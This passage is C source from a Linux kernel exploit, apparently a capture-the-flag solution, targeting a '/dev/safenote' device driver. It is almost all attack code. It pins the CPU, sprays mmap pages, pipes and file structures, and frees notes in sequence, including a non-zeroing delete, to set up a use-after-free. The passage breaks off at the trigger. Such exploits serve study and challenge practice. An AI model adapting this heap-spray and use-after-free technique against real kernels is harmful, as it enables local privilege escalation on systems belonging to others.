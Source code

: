 ```c
        puts("[*] done");
    }
    
    getchar();
}

int main() {
    if(!fork()) {
        char *const args[] = {"/bin/touch", "/tmp/x"};
        execve("/bin/touch", args, NULL);
    }

    save_state();
    bind_cpu(0);

    void *page_spray[0x2000];
    for (int i = 0; i < 0x2000; i++) {
        page_spray[i] = mmap((void*)(0xdead0000UL + i*0x10000UL),
                            0x8000, PROT_READ|PROT_WRITE,
                            MAP_ANONYMOUS|MAP_SHARED, -1, 0);
        if (page_spray[i] == MAP_FAILED) perror("mmap");
    }

    int fd = open("/dev/safenote", O_RDWR);
    printf("[*] device fd: %d\n", fd);

    int **pipes1 = spray_pipes(0x30);

    for(int i = MAX_IDX; i >= 0; i--) {
        create(fd, i);
    }

    int **pipes2 = spray_pipes(0x30);

    free_pipes(pipes2, 0x30);

    int loc = 0xc0;

    for(int i = 0; i < loc; i++) {
        delete(fd, i);
    }

    delete_nozero(fd, loc);
    
    for(int i = loc+1; i < MAX_IDX+1; i++) {
        delete(fd, i);
    }

    free_pipes(pipes1, 0x30);

    int fds[0x1000];

    for(int i = 0; i < 0x1000; i++) {
        fds[i] = open("/tmp/x", O_RDWR);
        if(fds[i] < 0) {
            perror("open");
            exit(-1);
        } 
    }

    printf("[*] before uaf trigger\n");

    delete(fd, loc);
```